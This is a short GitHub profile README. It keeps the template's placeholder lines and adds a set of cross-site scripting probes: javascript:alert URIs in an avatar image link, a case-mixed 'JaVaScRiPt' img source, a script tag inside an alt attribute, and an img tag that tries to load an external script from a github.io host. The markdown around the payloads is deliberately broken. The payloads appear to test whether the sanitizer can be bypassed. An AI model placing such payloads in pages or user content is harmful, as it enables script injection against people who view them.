 - 👋 Hi, I’m @falx00h
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

![text](https://avatars.githubusercontent.com/u/92805783?s=40&javascript:alert(1);)
![

<img src="JaVaScRiPt:alert('XSS')" alt="<SCRIPT>alert()</SCRIPT>">
<IMG SRC= script%20src%3dhttps://r89shi.github.io/teste.js >

](()
